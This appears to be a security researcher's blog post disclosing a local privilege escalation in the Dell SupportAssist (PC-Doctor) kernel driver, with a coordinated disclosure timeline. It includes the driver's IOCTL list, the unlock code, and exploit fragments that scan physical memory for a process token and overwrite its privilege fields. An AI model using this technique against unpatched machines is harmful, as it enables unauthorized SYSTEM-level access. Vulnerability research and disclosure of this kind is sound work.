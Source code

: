 ```yaml
---
categories:
- windows
- privilege escalation
- kernel
comments: false
date: "2018-05-01T22:00:00Z"
title: Dell SupportAssist Driver - Local Privilege Escalation
---
```


This post details a local privilege escalation (LPE) vulnerability I found 
in Dell's SupportAssist[0] tool. The bug is in a kernel driver loaded by 
the tool, and is pretty similar to bugs found by ReWolf in 
ntiolib.sys/winio.sys[1], and those found by others in ASMMAP/ASMMAP64[2].
These bugs are pretty interesting because they can be used to bypass driver
signature enforcement (DSE) ad infinitum, or at least until they're no longer
compatible with newer operating systems. 

Dell's SupportAssist is, according to the site, "(..) now preinstalled on most
of all new Dell devices running Windows operating system (..)". It's primary
purpose is to troubleshoot issues and provide support capabilities both to the
user and to Dell. There's quite a lot of functionality in this software itself,
which I spent quite a bit of time reversing and may blog about at a later date. 

## Bug

Calling this a "bug" is really a misnomer; the driver exposes this
functionality eagerly. It actually exposes a lot of functionality, much like
some of the previously mentioned drivers. It provides capabilities for reading
and writing the model-specific register (MSR), resetting the 1394 bus, and
reading/writing CMOS.

The driver is first loaded when the SupportAssist tool is launched, and the
filename is `pcdsrvc_x64.pkms` on x64 and `pcdsrvc.pkms` on x86. Incidentally, 
this driver isn't actually even built by Dell, but rather another company, 
PC-Doctor[3]. This company provides "system health solutions" to a variety of
companies, including Dell, Intel, Yokogawa, IBM, and others. Therefore, it's
highly likely that this driver can be found in a variety of other products...

Once the driver is loaded, it exposes a symlink to the device at
`PCDSRVC{3B54B31B-D06B6431-06020200}_0` which is writable by unprivileged users
on the system. This allows us to trigger one of the many IOCTLs exposed by the
driver; approximately 30. I found a DLL used by the userland agent that served
as an interface to the kernel driver and conveniently had symbol names
available, allowing me to extract the following:

```
// 0x222004 = driver activation ioctl
// 0x222314 = IoDriver::writePortData
// 0x22230c = IoDriver::writePortData
// 0x222304 = IoDriver::writePortData
// 0x222300 = IoDriver::readPortData
// 0x222308 = IoDriver::readPortData
// 0x222310 = IoDriver::readPortData
// 0x222700 = EcDriver::readData
// 0x222704 = EcDriver::writeData
// 0x222080 = MemDriver::getPhysicalAddress
// 0x222084 = MemDriver::readPhysicalMemory
// 0x222088 = MemDriver::writePhysicalMemory
// 0x222180 = Msr::readMsr
// 0x222184 = Msr::writeMsr
// 0x222104 = PciDriver::readConfigSpace
// 0x222108 = PciDriver::writeConfigSpace
// 0x222110 = PciDriver::?
// 0x22210c = PciDriver::?
// 0x222380 = Port1394::doesControllerExist
// 0x222384 = Port1394::getControllerConfigRom
// 0x22238c = Port1394::getGenerationCount
// 0x222388 = Port1394::forceBusReset
// 0x222680 = SmbusDriver::genericRead
// 0x222318 = SystemDriver::readCmos8
// 0x22231c = SystemDriver::writeCmos8
// 0x222600 = SystemDriver::getDevicePdo
// 0x222604 = SystemDriver::getIntelFreqClockCounts
// 0x222608 = SystemDriver::getAcpiThermalZoneInfo
```

Immediately the MemDriver class jumps out. After some reversing, it appeared
that these functions do exactly as expected: allow userland services to both
read and write arbitrary physical addresses. There are a few quirks, however. 

To start, the driver must first be "unlocked" in order for it to begin
processing control codes. It's unclear to me if this is some sort of hacky 
event trigger or whether the kernel developers truly believed this would 
inhibit malicious access. Either way, it's goofy. To unlock the driver, a 
simple ioctl with the proper code must be sent. Once received, the driver will 
process control codes for the lifetime of the system.

To unlock the driver, we just execute the following: 

```
BOOL bResult;
DWORD dwRet;
SIZE_T code = 0xA1B2C3D4, outBuf;

bResult = DeviceIoControl(hDriver, 0x222004, 
                          &code, sizeof(SIZE_T), 
                          &outBuf, sizeof(SIZE_T), 
                          &dwRet, NULL);
```

Once the driver receives this control code and validates the received code
(0xA1B2C3D4), it sets a global flag and begins accepting all other control
codes.

## Exploitation

From here, we could exploit this the same way rewolf did [4]: read out physical
memory looking for process pool tags, then traverse these until we identify our
process as well as a SYSTEM process, then steal the token. However, PCD
appears to give us a shortcut via `getPhysicalAddress` ioctl. If this does
indeed return the physical address of a given virtual address (VA), we can simply
find the physical of our VA and enable a couple token privileges[5] using the
`writePhysicalMemory` ioctl.

Here's how the `getPhysicalAddress` function works:

```
v5 = IoAllocateMdl(**(PVOID **)(a1 + 0x18), 1u, 0, 0, 0i64);
v6 = v5;
if ( !v5 )
  return 0xC0000001i64;
MmProbeAndLockPages(v5, 1, 0);
**(_QWORD **)(v3 + 0x18) = v4 & 0xFFF | ((_QWORD)v6[1].Next << 0xC);
MmUnlockPages(v6);
IoFreeMdl(v6);
```

Keen observers will spot the problem here; the `MmProbeAndLockPages` call is
passing in UserMode for the KPROCESSOR_MODE, meaning we won't be able to 
resolve any kernel mode VAs, only usermode addresses.

We can still read chunks of physical memory unabated, however, as the
`readPhysicalMemory` function is quite simple:

```
if ( !DoWrite )
{
  memmove(a1, a2, a3);
  return 1;
}
```

They reuse a single function for reading and writing physical memory; we'll
return to that. I decided to take a different approach than rewolf for a number
of reasons with great results.

Instead, I wanted to toggle on SeDebugPrivilege for my current process token.
This would require finding the token in memory and writing a few bytes at a
field offset. To do this, I used `readPhysicalMemory` to read chunks of memory
of size 0x10000000 and checked for the first field in a _TOKEN, TokenSource. In
a user token, this will be the string `User32`. Once we've identified this,
we double check that we've found a token by validating the TokenLuid, which we
can obtain from userland using the GetTokenInformation API.

In order to speed up the memory search, I only iterate over the addresses that
match the token's virtual address byte index. Essentially, when you convert a
virtual address to a physical address (PA) the byte index, or the lower 12 bits,
do not change. To demonstrate, assume we have a VA of 0xfffff8a001cc2060.
Translating this to a physical address then: 

```
kd> !pte  fffff8a001cc2060
                                           VA fffff8a001cc2060
PXE at FFFFF6FB7DBEDF88    PPE at FFFFF6FB7DBF1400    PDE at FFFFF6FB7E280070    PTE at FFFFF6FC5000E610
contains 000000007AC84863  contains 00000000030D4863  contains 0000000073147863  contains E6500000716FD963
pfn 7ac84     ---DA--KWEV  pfn 30d4      ---DA--KWEV  pfn 73147     ---DA--KWEV  pfn 716fd     -G-DA--KW-V

kd> ? 716fd * 0x1000 + 060
Evaluate expression: 1903153248 = 00000000`716fd060
```

So our physical address is 0x716fd060 (if you'd like to read more about 
converting VA to PA, check out this great Microsoft article[6]). Notice the
lower 12 bits remain the same between VA/PA. The search loop then boiled down 
to the following code:

```
uStartAddr = uStartAddr + (VirtualAddress & 0xfff);
for (USHORT chunk = 0; chunk < 0xb; ++chunk) {
    lpMemBuf = ReadBlockMem(hDriver, uStartAddr, 0x10000000);
    for(SIZE_T i = 0; i < 0x10000000; i += 0x1000, uStartAddr += 0x1000){
        if (memcmp((DWORD)lpMemBuf + i, "User32 ", 8) == 0){
            
            if (TokenId <= 0x0)
                FetchTokenId();

            if (*(DWORD*)((char*)lpMemBuf + i + 0x10) == TokenId) {
                hTokenAddr = uStartAddr;
                break;
            }
        }
    }

    HeapFree(GetProcessHeap(), 0, lpMemBuf);

    if (hTokenAddr > 0x0)
        break;
}
```

Once we identify the PA of our token, we trigger two separate writes at offset
0x40 and offset 0x48, or the Enabled and Default fields of a _TOKEN. This
sometimes requires a few runs to get right (due to mapping, which I was too
lazy to work out), but is very stable.

You can find the source code for the bug [here](https://github.com/hatRiot/bugs).

## Timeline
04/05/18 - Vulnerability reported  
04/06/18 - Initial response from Dell  
04/10/18 - Status update from Dell  
04/18/18 - Status update from Dell  
05/16/18 - Patched version released (v2.2)  

## References
[0]
http://www.dell.com/support/contents/us/en/04/article/product-support/self-support-knowledgebase/software-and-downloads/supportassist\ 
[1] http://blog.rewolf.pl/blog/?p=1630
[2] https://www.exploit-db.com/exploits/39785/
[3] http://www.pc-doctor.com/
[4] https://github.com/rwfpl/rewolf-msi-exploit
[5] https://github.com/hatRiot/token-priv\
[6]
https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/converting-virtual-addresses-to-physical-addresses\
